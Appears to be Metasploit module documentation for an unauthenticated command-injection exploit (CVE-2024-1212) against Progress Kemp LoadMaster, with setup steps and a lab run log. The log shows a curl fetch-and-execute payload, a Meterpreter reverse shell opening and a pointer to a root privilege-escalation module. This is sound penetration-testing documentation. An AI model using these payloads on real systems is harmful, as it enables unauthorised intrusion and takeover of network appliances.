 ## Vulnerable Application
CVE-2024-1212: Progress Kemp LoadMaster Unauthenticated Command Injection

For more details on the vulnerability:  
https://rhinosecuritylabs.com/research/cve-2024-1212unauthenticated-command-injection-in-progress-kemp-loadmaster/

https://support.kemptechnologies.com/hc/en-us/articles/23878931058445-LoadMaster-Security-Vulnerability-CVE-2024-1212

A trial VM which the exploit should work against out of the box can be downloaded from:
https://sso.kemptechnologies.com/register/kemp/vlm

The AWS marketplace also has free trials which can be used. These require the "session management" to be enabled in order for the exploit to work. Since by default the admin WUI is behind basic auth.
https://aws.amazon.com/marketplace/pp/prodview-kgh3dsfk7qcnw

## Verification Steps
1. Install the application
1. Start msfconsole
1. Do: `use exploits/linux/http/progress_kemp_loadmaster_unauth_cmd_injection`
1. Do: `set RHOSTS <target loadmaster>`
1. Do: `set RPORT <port loadmaster is running on>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a shell as the `bal` user.
1. (Optional) use the module `exploit/linux/local/progress_kemp_loadmaster_sudo_privesc_2024` to gain root privileges.
1. (Optional) use the script `run_progress_kemp_loadmaster_sudo_priv_esc_2024.rc` to automatically run the above module.

## Scenarios

### LoadMaster 7.2.59.0.22007

``` msf
msf exploit(linux/http/progress_kemp_loadmaster_unauth_cmd_injection) > show options

Module options (exploit/linux/http/progress_kemp_loadmaster_unauth_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.5.134.141     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-met
                                         asploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI path to LoadMaster
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      GyzwtIbxq        no        Name to use on remote system when storing payload; cannot contain spaces or slash
                                                  es
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp/            yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf exploit(linux/http/progress_kemp_loadmaster_unauth_cmd_injection) > run

[*] Command to run on remote host: curl -so /tmp/LlipoMVy http://10.5.135.201:8080/RByzlSnTzclKDpvXskXIrg; chmod +x /tmp/LlipoMVy; /tmp/LlipoMVy &
[*] Fetch handler listening on 10.5.135.201:8080
[*] HTTP server started
[*] Adding resource /RByzlSnTzclKDpvXskXIrg
[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.5.134.141:443 is vulnerable...
[+] The target is vulnerable.
[*] Sending payload...
[*] Client 10.5.134.141 requested /RByzlSnTzclKDpvXskXIrg
[*] Sending payload to 10.5.134.141 (curl/7.77.0)
[+] Now background this session with "bg" and then run "resource run_progress_kemp_loadmaster_sudo_priv_esc_2024.rc" to get a root shell
[*] Meterpreter session 1 opened (10.5.135.201:4444 -> 10.5.134.141:29264) at 2024-04-12 17:08:57 -0500

meterpreter > sysinfo
Computer     : 10.5.134.141
OS           : SuSE 7.2 (Linux 4.14.137)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: bal
```
